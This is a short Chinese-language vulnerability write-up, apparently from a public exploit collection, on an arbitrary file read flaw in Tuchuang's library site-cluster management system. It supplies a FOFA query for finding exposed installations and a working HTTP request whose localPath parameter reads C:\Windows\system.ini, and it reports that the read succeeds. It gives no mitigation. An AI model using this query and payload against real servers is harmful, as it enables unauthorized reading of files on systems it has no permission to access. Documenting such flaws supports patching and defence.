 # 图创软件 图书馆站群管理系统 任意文件读取漏洞

## 漏洞描述

图创软件 图书馆站群管理系统 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
图创软件 图书馆站群管理系统
```

## FOFA

```
"广州图创" && country="CN" && body="/interlib/common/"
```



## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101854438.png)

漏洞请求包为



```plain
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: 
Content-Length: 4
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101854283.png)



成功读取 system.ini 文件